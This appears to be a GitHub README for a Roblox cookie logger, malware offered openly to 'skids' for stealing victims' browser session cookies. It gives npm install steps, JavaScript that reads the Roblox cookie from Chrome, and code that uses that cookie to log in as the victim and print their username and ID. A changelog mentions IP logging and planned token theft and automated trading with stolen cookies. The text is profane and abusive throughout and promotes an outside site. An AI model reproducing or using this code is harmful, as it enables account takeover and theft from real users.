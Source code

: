 #updates
```Nim
1. [Added] Cookie Logging
2. [Added] Ip Logging
3. [coming soon] Might add the Auto Trade Via cookie method later on if i am not lazy
4. [coming soon] finish up the api
5. [coming soon] fuck ur mom obv
6. [coming soon] token logging for the weebs
```

# Cookie-Logger
I was bored and made this

sigh just a shitty cookie logger when i am done with exams and shit i'll make my own cookie logging api so u skids can send the file to victims and yoink their shit if u want this faster u can just go to https://skadaddle.cc/ might release it on there with a lot more features like token logging and etc

![](image.png)


# STEPS FOR SKIDS

Install these first

```
npm i github:ClockworkSquirrel/rbxcookie --no-optional
```
```
npm i noblox.js -g
```

# How the check if it works

a simple fucking way to check this shitty ass logger is by

```js
const ChromeCookie = new rbxcookie.Chrome()

async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    console.log(cookie)
}
skidcity()
```

Here is a more detailed explanation of validating the cookie u fucking dumbass roblox.js bs is automated so its easy af u stupid piece of shit

```js
async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    await cbx.setCookie(cookie)
    let user = (await cbx.getCurrentUser()).UserName
    let id = (await cbx.getCurrentUser()).UserID
    console.log(`Information on the person you logged\n User: ${user} - ID [${id}]`)
}
skidcity()
```

if u wanna say some fucking shit cuz u don't know how to run this shitty logger that won't even function right if u compile it just join our server from the website
# https://skadaddle.cc/
